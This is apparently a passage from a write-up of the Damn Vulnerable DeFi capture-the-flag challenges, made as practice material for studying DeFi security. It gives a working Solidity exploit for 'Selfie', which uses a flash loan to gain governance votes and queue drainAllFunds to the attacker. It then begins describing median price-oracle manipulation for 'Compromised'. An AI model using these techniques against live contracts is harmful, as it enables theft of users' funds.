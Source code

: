 
## 6. Selfie

This challenge is similar to the previous one.
A governance contract accepting majority token holder decisions can be abused by taking a flash loan.
We deposit the flash loan making our attacker a governance token whale which we can use to queue a governance action to drain all funds.

```solidity
function attack() public {
    uint256 flashLoanBalance = token.balanceOf(address(pool));
    attackerEOA = msg.sender;

    // get flash loan
    pool.flashLoan(flashLoanBalance);
}

// called by ISelfiePool::flashLoan
function receiveTokens(
    address, /* tokenAddress */
    uint256 amount
) external {
    // received tokens => take a snapshot because it's checked in queueAction
    token.snapshot();

    // we can now queue a government action to drain all funds to attacker account
    // because it checks the balance of governance tokens (which is the same token as the pool token)
    bytes memory drainAllFundsPayload =
        abi.encodeWithSignature("drainAllFunds(address)", attackerEOA);
    // store actionId so we can later execute it
    actionId = governance.queueAction(
        address(pool),
        drainAllFundsPayload,
        0
    );

    // pay back to flash loan sender
    token.transfer(address(pool), amount);
}
```

## 7. Compromised

The seventh challenge deals with an NFT exchange contract that automatically buys and sells certain NFTs at a price determined by an oracle.
The oracle itself uses three externally owned accounts as price feeders and returns the median of the reported prices.
Our goal is to manipulate the price to buy a cheap NFT, then manipulate the price again to sell this NFT for a huge profit.
As the oracle uses the median we need to manipulate at least two oracles to be able to change the price.
